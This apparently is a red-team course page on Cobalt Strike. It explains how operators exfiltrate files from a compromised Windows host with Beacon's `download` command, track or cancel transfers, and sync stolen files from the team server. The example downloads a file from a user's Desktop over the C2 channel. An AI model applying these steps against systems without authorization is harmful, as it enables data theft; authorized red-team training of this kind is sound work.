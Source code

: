 # Downloading Files

Files can be downloaded from a target using the `download` command.  The command syntax is `download [file]`, where `[file]` can be an absolute or relative path.

```
beacon> download C:\Users\pchilds\Desktop\desktop.ini
[*] started download of C:\Users\pchilds\Desktop\desktop.ini (282 bytes)
[*] download of desktop.ini is complete
```

Files can also be downloaded from the file browser by right-clicking and selecting **Download**.

The file content is transferred to the team server over the C2 channel (the same way job output is sent from Beacon).  The speed at which a file can be downloaded is therefore dependant on the protocol used by the egress Beacon talking to the team server and Beacon's sleep time.  For example, a file will take much longer to download through a DNS Beacon using A records than an HTTP Beacon using POST requests.

To see downloads that are still in progress, run the `downloads` command.  This will show a summary of running downloads, their total size, and the amount of data received to date.  A download that is in progress can be terminated with the `cancel` command.

Because files are downloaded to the team server first, they will not appear on the machine running the Cobalt Strike client. To do that, go to **View > Downloads**.

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/29f5d4b648099b2dbd7dfb53a7c77a0f.png" alt="" width="100%"><figcaption></figcaption></figure>

From here, select the desired file(s) and click **Sync Files**.  This will open a dialogue box which allows you to save the file to your local disk.  Files may also be removed from the team server using the **Delete Files** button.  Every operator connected to the team server can see (and delete) any of the files that have been downloaded.
